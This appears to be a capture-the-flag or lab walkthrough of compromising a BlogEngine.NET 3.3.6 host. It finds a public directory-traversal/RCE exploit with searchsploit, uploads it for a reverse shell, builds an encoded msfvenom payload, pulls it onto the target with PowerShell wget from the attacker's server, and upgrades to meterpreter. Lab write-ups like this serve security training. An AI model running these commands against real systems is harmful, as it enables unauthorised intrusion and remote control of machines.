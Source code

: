 Using `searchsploit` to find exploits:
```bash
$> searchsploit blogengine

BlogEngine.NET 3.3.6 - Directory Traversal / Remote Code Execution | aspx/webapps/46353.cs
```

Mirror the exploit file:
```
$> searchsploit -m aspx/webapps/46353.cs
```

This file has a detailed overview at the top with how to go about using the exploit to gain remote access. The key details are:
- File must be uploaded as PostView.ascx
- Change the address and port in the script to the lhost and lport
- Upload via '/admin/app/editor/editpost.cshtml'
- Navigate to '/?theme=../../App_Data/files' to run the file

Running the file will give a reverse shell to our listener.

#### Enumerating

The shell we have is quite unstable so I want to stabilize it by creating a meterpreter shell via metasploit.

Craft our reverse shell using `msfvenom`:
```bash
$> msfvenom -p windows/shell_reverse_tcp LHOST=<ip> LPORT=<port> -e x86/shikata_ga_nai -f exe -o msfvenom_reverse_shell.exe
```

Using our reverse shell we can grab the file from our server (using `python3 -m http.server`):
```powershell
cmd> powershell.exe -c "wget 'http://<ip>:8000/msfvenom_reverse_shell.exe' -OutFile 'C:\Users\Public\msfvenom_reverse_shell.exe'"
```

Create a listener on metasploit:
```bash
msf6> use exploit/multi/handler 
msf6> set payload windows/x64/shell/reverse_tcp
msf6> set lhost <ip>
msf6> set lport <port>
msf6> exploit
```

And the we can run our reverse shell:
```cmd
cmd> C:\Users\Public\msfvenom_reverse_shell.exe
```
& background the session `ctrl+z`

Upgrading to meterpreter:
```bash
msf6> use post/multi/manage/shell_to_meterpreter
msf6> sessions -l
msf6> set session <reverse-shell-session-id>
msf6> set lhost 10.9.7.128
msf6> set lport 4433
msf6> exploit
msf6> session -i <meterpreter-session-id>

meterpreter>
```
* I did notice the meterpreter/PS shell is still slightly unstable and likes to die from time to time. Keeping the original session around as a backup was handy.
